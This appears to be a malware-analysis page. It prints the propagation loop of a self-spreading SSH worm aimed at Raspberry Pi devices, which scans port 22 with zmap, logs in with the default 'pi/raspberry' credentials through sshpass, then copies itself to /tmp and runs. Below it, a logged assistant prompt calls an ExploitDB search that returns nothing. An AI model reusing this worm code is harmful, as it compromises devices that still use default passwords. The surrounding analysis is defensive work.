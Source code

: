 while [ true ]; do
	FILE=`mktemp`
	zmap -p 22 -o $FILE -n 100000
	killall ssh scp
	for IP in `cat $FILE`
	do
		sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
		sshpass -praspberryraspberry993311 scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberryraspberry993311 ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
	done
	rm -rf $FILE
	sleep 10
done

fi


 ` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Explain which vulnerabilities are being exploited. Include the exploit name(s), CVE number(s) and example code from ExploitDB, if possible. First use search_exploitdb to find potential exploits, then use the get_exploitdb_exploit to get the code for the exploit that is being used in the attack.

**Run ID:** `run_5EFjf8f2dz1qYcTgysyu1EsT`

### Funciton Calls
**Step ID:** `step_nC2aQ7QkS2xoQ03tnUVCu941`

**Function called:** `search_exploitdb`

| Argument | Value |
| --- | --- |
| `search_text` | `ssh pi default password` |

| Output | Value |
| --- | --- |
| `ssh pi default password` | `{'exploitdb': ''}` |

